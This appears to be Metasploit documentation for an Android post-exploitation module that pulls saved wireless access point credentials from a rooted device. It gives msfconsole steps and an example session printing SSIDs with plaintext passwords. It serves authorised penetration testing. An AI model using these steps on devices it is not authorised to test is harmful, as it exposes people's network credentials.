 ## Vulnerable Application

  This post-exploitation module will extract all saved Wireless access point credentials from the target android device.

## Verification Steps

  1. Start `msfconsole`
  2. Get a **root** meterpreter session (use exploit/android/local/...)
  3. `use post/android/gather/wireless_ap`
  4. `set SESSION <session id>`
  5. `run`
  6. You should be able to see the extracted credentials.

## Options

  **SESSION** - The session to run the module on.

## Extracted data

  Wireless AP credentials (SSID, network type and password)

## Scenarios


```
msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPA-PSK   lkjhgfdsa
 FCP_WiFi              NONE
 HomeCable             WPA-PSK   p@$$w0rd
 Troika                WPA-PSK   ika@12345
 

[+] Secrets stored in: ~/.msf4/loot/...wireless.ap.cred_...txt
[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
```
